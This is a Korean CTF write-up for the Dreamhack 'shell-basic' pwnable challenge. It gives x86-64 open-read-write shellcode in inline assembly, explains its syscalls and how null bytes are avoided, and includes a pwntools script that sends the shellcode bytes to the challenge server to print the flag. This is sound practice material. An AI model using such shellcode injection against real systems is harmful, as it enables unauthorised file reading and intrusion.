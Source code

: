 ```yaml
---
title: "[pwn]shell-basic"
category: CTF
tags: [pwnable]
excerpt: "dreamhack shell-basic writeup"
toc: true
toc_label: "Table of Contents"
toc_sticky: true
toc_icon: "bars"
---
```


처음 풀어보는 포너블 문제라 감도 안왔지만 튜토리얼로 어느정도는 따라갈 수 있었다. 파일 경로가 길어졌다느 것을 제외하면 같은 방식이다.
## assembly code
~~~
__asm__(
	".global main\n"
        "main:\n"

	"xor rax,rax\n"
	"push rax\n"
        "mov rax,0x676E6F6F6F6F6F6F\n"
	"push rax\n"
        "mov rax,0x6C5F73695F656D61\n"
        "push rax\n"
	"mov rax,0x6E5F67616C662F63\n"
        "push rax\n"
	"mov rax,0x697361625F6C6C65\n"
        "push rax\n"
	"mov rax,0x68732F656D6F682F\n"
        "push rax\n"
	"mov rdi,rsp\n"
        "xor rsi,rsi\n"
        "xor rdx,rdx\n"
	"xor rax,rax\n"
	"add rax,0x2\n"
        "syscall\n"
	"\n"
        "mov rdi,rax\n"
	"mov rsi,rsp\n"
	"sub rsi,0x30\n"
        "xor rax,rax\n"
	"xor rdx,rdx\n"
	"add rdx,0x30\n"
        "syscall\n"
	"\n"
	"xor rdi,rdi\n"
	"add rdi,0x1\n"
	"xor rax,rax\n"
	"add rax,0x1\n"
        "syscall");
~~~
## 풀이
1. 환경조사  
  **file shell_basic** 을 통해 환경을 먼저 조사한다. amd64 환경인 것을 알 수 있다.  
  
2. 파일경로 push  
  먼저 12번부터 16번까지는 stack에 file location을 string의 형태로 넣었다. 우연인지 파일 경로가 8byte에 맞아 떨어지므로 \0을 마지막에 넣어주기 위해 0을 먼저 push해주었다.   
  
  shell code에는 \x00이 포함되면 안되므로 **mov rax,0x0** 이 아닌 **xor rax,rax**를 해준것이다.  
  {: .notice--danger}
3. system call  
  그 이후에는 SYS_OPEN의 변수에 맞게 넣어주면 된다. **SYS_OPEN(const char \*filename,int flags,umode_t mode)** 에 flags=0, mode=null 을 넣어준 것이다.   
  나머지 **SYS_READ(unsigned int fd,char \*buf,size_t count)**, **SYS_WRITE(unsigned int fd,char \*buf,size_t count)** 함수의 parameter에 맞게 넣어주면 된다.  
  
4. gcc  
  **gcc -o orw orw.c -masm=intel** 명령어를 통해 컴파일한다.  
  
5. objdump  
  **objdump -d ./orw** 명령어로 opcode를 추출한다.  
  <img width="605" alt="opcode" src="https://user-images.githubusercontent.com/45323902/154000690-ae589c0c-4fb5-46fa-823f-0cd0e2fd155d.png">  
  여기서 마지막 syscall(\x0f\x05)까지만 추출하면 된다.  
  
6. script  
  ~~~
	from pwn import *

	p=remote('host1.dreamhack.games',22700)

	p.recvuntil(b'shellcode:')
  exploit=b'\x48\x31\xc0\x50\x48\xb8\x6f\x6f\x6f\x6f\x6f\x6f\x6e\x67\x50\x48\xb8\x61\x6d\x65\x5f\x69\x73\x5f\x6c\x50\x48\xb8\x63\x2f\x66\x6c\x61\x67\x5f\x6e\x50\x48\xb8\x65\x6c\x6c\x5f\x62\x61\x73\x69\x50\x48\xb8\x2f\x68\x6f\x6d\x65\x2f\x73\x68\x50\x48\x89\xe7\x48\x31\xf6\x48\x31\xd2\x48\x31\xc0\x48\x83\xc0\x02\x0f\x05\x48\x89\xc7\x48\x89\xe6\x48\x83\xee\x30\x48\x31\xc0\x48\x31\xd2\x48\x83\xc2\x30\x0f\x05\x48\x31\xff\x48\x83\xc7\x01\x48\x31\xc0\x48\x83\xc0\x01\x0f\x05'
	p.send(exploit)
	p.interactive()
  ~~~

  script를 이용해 shellcode를 전달하면 함수 내부에서 shellcode를 메모리에 넣고 실행하게 된다.  
  <img width="725" alt="script exec" src="https://user-images.githubusercontent.com/45323902/154060282-9a3a8081-505a-4e1f-b5fe-d719bde16195.png">  
  이때 flag이후에 다른 값이 나오는 이유는 buf size가 0x30인데 flag가 그보다 짧아 메모리에 있는 다른 내용까지 출력하게 된 것이다.
